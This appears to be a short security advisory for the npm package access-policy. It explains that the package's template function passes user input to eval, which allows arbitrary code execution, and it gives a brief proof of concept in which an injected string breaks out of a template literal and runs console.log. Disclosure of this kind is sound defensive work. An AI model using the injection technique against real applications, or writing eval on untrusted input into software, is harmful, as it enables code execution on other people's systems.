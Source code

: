 
## Description

access-policy is a package that encodes and decodes policy JSON files for use with web applications.
Affected versions of this package are vulnerable to Arbitrary Code Execution. User input provided to the <kbd>template</kbd> function is executed by the <kbd>eval</kbd> function resulting in code execution.

## POC

```
var a = require("access-policy");
var statements = '`;console.log(123);//';
data = {};

a.encode(statements,data)
```

 
